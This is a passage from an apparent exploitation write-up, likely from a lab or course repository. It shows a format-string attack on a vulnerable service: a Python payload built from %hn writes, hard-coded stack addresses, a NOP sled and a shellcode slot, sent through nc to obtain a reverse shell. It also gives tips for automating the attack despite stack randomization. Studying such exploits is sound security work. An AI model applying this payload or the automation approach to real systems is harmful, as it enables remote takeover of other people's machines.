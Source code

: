 ```python
"%32767x"       # write 7fff
+ "%16$hn"      # write to portion of return pointed to by 16$ 
+ "%27825x"     # write ecb0. 
+ "%14$hn"      # remember, cumulative - that's why we did 27825x
+ "%04943x"     # write ffff
+ "%15$hn" 
+ "AAAAAAAAA"   # some padding to align our below addresses properly
+ "\x68\xED\xFF\xFF\xFF\x7F\x00\x00"    # 14$
+ "\x6A\xED\xFF\xFF\xFF\x7F\x00\x00"    # 15$
+ "\x6C\xED\xFF\xFF\xFF\x7F\x00\x00"    # 16$
+ "\x90"*32     # some noops. we don't really need these, but I like aiming at them
+ shellcode_here
```

Sending this through a python print piped through an nc gets us... well, depends on what we inserted as our shellcode! But if it was a reverse-bind, and we had a listener open, then we would indeed get a connection from the target/victim machine with a shell.

Since we based our strategy on memory leaks, no gdb or definite stack knowledge necessary, this can be reproduced easily with stack randomization! It's just simpler not to have to recalculate every time thanks to the stack moving around until you have a strategy you can automate.


## Step 4: Automating the format string exploit

From here all we need is to code up this strategy into a script that we can point at the vulnerable service. This is... not any more difficult than creating the original exploit, but slightly obnoxious thanks to things like big/little-endian storage, etc. 

I wrote my script in python - it can be found up above through that relevant files link - and here are some potentially-useful notes:
- I found it a lot easier to make certain the format-string, address, and noop portion of my payload would always be the same length, rather than having to adjust padding after my format-string or (worse) shellcode addressing. This doesn't require any additional code except for the format string portion, and there the only things that would need to be adjusted are the %#x sections. Those just need to be zero-padded in front. Python has a useful zfill function for this purpose.
- Write a tiny function to flip big-endian addresses to little-endian. You will thank yourself.
- I dealt with arguments needing to be written in different orders, depending on the stack address, by creating a list of tuples and arranging based on hex number size. In the final format string, this shuffles around my %#$hn sections based on the %#x sections. You can instead shuffle around the addresses if you're so inclined, it wouldn't make a huge difference - just decide on a strategy and stick to it!
- Sometimes python is finicky. If I didn't make it sleep after my first send through the socket, it wouldn't receive the response. If I shut down my socket at the end, even after seemingly successfully placing and executing my shellcode, the shellcode wouldn't run properly - I had to leave the socket open. Yes, even for a reverse bind using another socket. Be ready for fiddling and other weird tiny pitfalls that don't necessarily mean your payload or shellcode were incorrect.